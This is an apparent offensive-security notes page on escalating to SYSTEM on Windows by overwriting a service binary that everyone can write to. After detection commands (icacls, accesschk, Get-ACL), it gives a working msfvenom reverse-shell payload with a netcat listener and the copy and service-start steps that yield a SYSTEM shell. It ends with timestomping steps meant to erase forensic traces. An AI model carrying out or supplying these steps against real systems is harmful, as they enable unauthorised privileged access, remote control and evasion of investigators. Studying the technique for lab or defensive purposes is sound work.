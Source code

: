 # Living off the Land

Weak service permissions that contains a binary file can be overwritten with a malware to gain **SYSTEM** privileges.

## 01 - Detect

### 1.1 - Command Prompt

**BUILTIN\\Users** are able to change the file configuration when running `icacls.exe`.

```
C:\> sc qc filepermsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\> icacls "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe Everyone:(F)
                                                              NT AUTHORITY\SYSTEM:(F)
                                                              BUILTIN\Administrators:(F)
                                                              WIN-QBA94KB3IOF\Administrator:(F)
                                                              NT AUTHORITY\SYSTEM:(I)(F)
                                                              BUILTIN\Administrators:(I)(F)
                                                              BUILTIN\Users:(I)(RX)
                                                              APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                              APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

To verify even further with `accesschk.exe` it is possible.

```
C:\> accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

### 1.2 - Powershell

When running `Get-ACL` cmdlet that the **BUILTIN\\Users** are able to change the file configuration when running `icacls.exe`

```
PS C:\> get-acl "C:\Program Files\File Permissions Service\filepermservice.exe" | fl


Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\File Permissions Service\filepermservice.exe
Owner  : BUILTIN\Administrators
Group  : WIN-QBA94KB3IOF\None
Access : Everyone Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         WIN-QBA94KB3IOF\Administrator Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
Audit  :
Sddl   : O:BAG:S-1-5-21-3025105784-3259396213-1915610826-513D:AI(A;;FA;;;WD)(A;;FA;;;SY)(A;;FA;;;BA)(A;;FA;;;LA)(A;ID;F
         A;;;SY)(A;ID;FA;;;BA)(A;ID;0x1200a9;;;BU)(A;ID;0x1200a9;;;AC)(A;ID;0x1200a9;;;S-1-15-2-2)

PS C:\> $acl = get-acl "C:\Program Files\File Permissions Service\filepermservice.exe"
PS C:\> convertfrom-sddlstring -sddl $acl.sddl | foreach-object {$_.DiscretionaryAcl}
Everyone: AccessAllowed (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, FullControl, FullControl, FullControl, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
NT AUTHORITY\SYSTEM: AccessAllowed (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, FullControl, FullControl, FullControl, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
BUILTIN\Administrators: AccessAllowed (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, FullControl, FullControl, FullControl, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
WIN-QBA94KB3IOF\Administrator: AccessAllowed (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, FullControl, FullControl, FullControl, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
NT AUTHORITY\SYSTEM: AccessAllowed Inherited (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, FullControl, FullControl, FullControl, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
BUILTIN\Administrators: AccessAllowed Inherited (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, FullControl, FullControl, FullControl, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
BUILTIN\Users: AccessAllowed Inherited (GenericWrite, ListDirectory, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, Traverse)
APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES: AccessAllowed Inherited (GenericWrite, ListDirectory, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, Traverse)
APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES: AccessAllowed Inherited (GenericWrite, ListDirectory, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, Synchronize, Traverse)
```

Shorten it

```
PS C:\> Get-ACL "C:\Program Files\File Permissions Service\filepermservice.exe" | Format-List AccessToString
```

## 02 - Exploit

TODO: Add these parts for the clean up process

```
PS C:\> Get-Item "c:\program files\file permissions service\filepermservice.exe" | Select-Object Name, CreationTime, LastWriteTime, LastAccessTime

PS C:\> Get-ItemProperty CreateShortcut.vbs | Select-Object Name, CreationTime, LastWriteTime, LastAccessTime
```

Before we overwrite the program we must first make a backup in case if it fails to start and also revert back to the original changes to clear our trace ahead of time. Then you can proceed to copy the shell to start a handler.

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.8.145.108 lport=53 -f exe-service -o filepermservice.exe

$ sudo nc -lnvp 53
```

- In command prompt

```
C:\> copy "c:\program files\file permissions service\filepermservice.exe" c:\temp\filepermservice.bak

C:\> copy /y shell.exe "c:\program files\file permissions service\filepermservice.exe"
        1 file(s) copied.

C:\> net start filepermsvc
```

- In powershell

```
PS C:\> copy-item "c:\program files\file permissions service\filepermservice.exe" c:\temp\filepermservice.bak

PS C:\> copy-item shell.exe "c:\program files\file permissions service\filepermservice.exe"

PS C:\> Start-Service filepermsvc
```

```
$ sudo nc -lnvp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.57.86.
Ncat: Connection from 10.10.57.86:49820.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## 03 - Cleanup

Now let's copy the original binary back to it's destination path to clear any malware we've inserted it.

- In command prompt

```
C:\Windows\system32> copy /y c:\temp\filepermservice.bak "c:\program files\file permissions service\filepermservice.exe"
```

- In powershell

```
PS C:\> copy-item c:\temp\filepermservice.bak "c:\program files\file permissions service\filepermservice.exe"
```

Manually add timestamp to clear any trace of activity.

```powershell
PS C:\> $file = "c:\program files\file permissions service\filepermservice.exe"
$creationtime = Get-Date "YYYY-MM-DD hh:mm:ss"
$lastwritetime = Get-Date "YYYY-MM-DD hh:mm:ss"
$lastaccesstime = Get-Date "YYYY-MM-DD hh:mm:ss"

Set-ItemProperty -Path $file -Name CreationTime -Value $creationtime
Set-ItemProperty -Path $file -Name LastWriteTime -Value $lastwritetime
Set-ItemProperty -Path $file -Name LastAccessTime -Value $lastaccesstime
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/11 - Anti-Forensics/Windows/Clear Traces/02 - Timestomps/Manual/Living off the Land|Windows: Timestomp]]

- [Red Team Notes: Weak Service Permissions](https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions)